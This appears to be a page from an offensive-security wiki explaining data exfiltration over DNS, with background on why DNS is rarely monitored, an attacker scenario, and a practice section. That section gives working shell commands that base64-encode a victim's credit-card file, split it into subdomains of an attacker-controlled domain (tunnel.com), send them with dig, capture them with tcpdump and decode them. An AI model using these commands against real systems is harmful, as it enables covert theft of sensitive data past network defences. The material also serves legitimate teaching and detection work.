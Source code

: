 # Over DNS

## Theory
The DNS protocol is a common protocol and Its primary purpose is to resolve domain names to IP addresses and vice versa. Even though the DNS protocol is not designed to transfer data, threat actors found a way to abuse and move data over it.  
Since DNS is not a transport protocol, many organizations don't regularly monitor the DNS protocol! The DNS protocol is allowed in almost all firewalls in any organization network. For those reasons, threat actors prefer using the DNS protocol to hide their communications.

### Limitations

The DNS protocol has limitations that need to be taken into consideration, which are as follows,

- The maximum length of the Fully Qualified FQDN domain name (including .separators) is 255 characters.
- The subdomain name (label) length must not exceed 63 characters (not including .com, .net, etc).

### Scenario

Now let's discuss the Data Exfiltration over DNS requirements and steps, which are as follows:  
1 - An attacker registers a domain name, for example, tunnel.com  
2 - The attacker sets up tunnel.com's NS record points to a server that the attacker controls.  
3 - The malware or the attacker sends sensitive data from a victim machine to a domain name they control—for example, passw0rd.tunnel.com, where passw0rd is the data that needs to be transferred.  
4 - The DNS request is sent through the local DNS server and is forwarded through the Internet.  
5 - The attacker's authoritative DNS (malicious server) receives the DNS request.  
6 - Finally, the attacker extracts the password from the domain name.  

## Practice

We concider that a NS record named `t1.tunnel.com` as been registred. It's poiting the Attacking IP.
{% tabs %}
{% tab title="Manualy" %}
In order to receive any DNS request on the attacking machine, we need to capture the network traffic for any incoming UDP/53 packets using the [tcpdump](https://github.com/the-tcpdump-group/tcpdump) tool.  
```bash
v4resk@kali$ sudo tcpdump -i eth0 udp port 53 -v 
```
On the victim machine, we first encode datas that need to be send, and split it into one or multiple DNS requests depending on the output's length (DNS limitations) and attach it as a subdomain name.
```bash
# Methode 1
victim@pwnd.lab$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.t1.tunnel.com/' > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.t1.tunnel.com
IKQWRkcmVzczogMTIz.t1.tunnel.com
NCBJbnRlcm5ldCwgVE.t1.tunnel.com
hNCkNyZWRpdCBDYXJk.t1.tunnel.com
OiAxMjM0LTEyMzQtMT.t1.tunnel.com
IzNC0xMjM0CkV4cGly.t1.tunnel.com
ZTogMDUvMDUvMjAyMg.t1.tunnel.com
pDb2RlOiAxMzM3Cg==.t1.tunnel.com

#Methode 2
victim@pwnd.lab$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.t1.tunnel.com
```
In order to send this datas, on the compromised host we can do:
```bash
victim@pwnd.lab$ cat toExfiltrate.txt | awk '{print "dig +short " $1}' | bash
```

Finally, on the attacking machine, we can decrypt datas as follow:
```bash
v4resk@kali$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
```

{% endtab %}
{% endtabs %}